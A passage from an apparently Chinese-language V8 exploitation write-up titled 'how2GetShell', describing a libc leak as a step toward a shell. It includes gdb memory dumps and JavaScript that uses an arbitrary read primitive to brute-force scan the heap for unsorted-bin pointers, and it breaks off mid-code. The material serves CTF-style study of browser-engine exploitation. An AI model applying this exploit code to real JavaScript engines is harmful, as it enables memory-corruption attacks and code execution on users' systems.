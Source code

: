 ### <a class="reference-link" name="how2GetShell"></a>how2GetShell

大概把下面三种方式都实验一下
- 1.泄露libc
- 2.Wasm
- 3.JIT（因为没有W权限，所以只是尝试一下找到JIT）
#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2libc"></a>泄露libc

泄露堆中包含指向unosort bin的指针，Hpasserby师傅认为在fd或者bk的位置上，0x7f开头的值一定指向&amp;main_arena+88的地址，这样只需要减去偏移地址就能获得libc的地址。[unsortbin泄露地址](https://migraine-sudo.github.io/2019/11/25/how2heap2/#2-1-0ctf-2017-babyheap)

backingstore一开始的指针指向的就是堆内存，我们可以通过对堆内存进行搜索，来泄露unsoirtbin的指针。

**实际测试中**，**循环读数据太多次ArrayBuffer对象的地址会跑飞（具体原因未知，可能又被GC挪走了），所以循环次数要控制，不能全部地址都遍历。**

```
//刚开始的可控ArrayBuffer地址
gdb-peda$ x/20xg 0x24903d38e5a9-1
0x24903d38e5a8:    0x00003be96c383fe9    0x000033bd5ef82251
0x24903d38e5b8:    0x000033bd5ef82251    0x0000beaf00000000
0x24903d38e5c8:    0x00005555561b9840    0x00005555561b9840
//反复read之后的ArrayBuffer地址
gdb-peda$ x/20xg 0x35c638b8e7a9-1
0x35c638b8e7a8:    0x000024903d38e5a8    0x000033bd5ef82251
0x35c638b8e7b8:    0x000033bd5ef82251    0x0000beaf00000000
0x35c638b8e7c8:    0x00005555561b9840    0x00005555561b9840
```

我使用的是Hpasserby师傅提出方法，直接暴力搜索堆，通过size/presize来匹配chunk，找到fd/bk是地址为0x7f开头为止。然后减去偏移即可。

用这种方式，比较容易出问题的部分在于ArrayBuffer的大小，太大和太小都会导致heap中不存在unsortbin（错误案例0xbeaf和0x20），毕竟v8的HEAP似乎没有那么被“中用”。所以我这里要修改前面的代码，改用0x512作为ArrayBuffer的长度。筛选时注意条件（见注释）。

```
/*泄露libc地址*/

let heap=wr.leak()-0x10;    
chunk=heap;                            //以backing store指针-0x10作为初始化chunk
console.log("[*]leak backing store address="+hex(heap));

let size=wr.read(chunk+8);
size=parseInt(size/8)*8;
let finded=0;
//循环以chunk为单位遍历
for(let i=0;i&lt;0x3000;i++)
{
    //let leak=wr.read(heap);
    prev_size=wr.read(chunk);
    size=wr.read(chunk+8);

  //筛选条件：
  //size！==0，必须为chunk结构
  //size%2===0,上一个chunk必须被free(prev inuse=0)
  //prev_size &lt;=0x3f0 
    if(size !== 0 &amp;&amp; size % 2 === 0 &amp;&amp; prev_size &lt;= 0x3f0) 
    {
    let tmp_ptr=chunk-prev_size;
        //%SystemBreak() 
        fd=wr.read(tmp_ptr+0x10);
        bk=wr.read(tmp_ptr+0x18);
        //console.log(hex(chunk)+"-&gt;"+hex(prev_size));
    if(parseInt(fd/0x10000000000)===0x7f)
    {
        console.log("[*]leak unsort bin(fd)");
        finded=fd;
```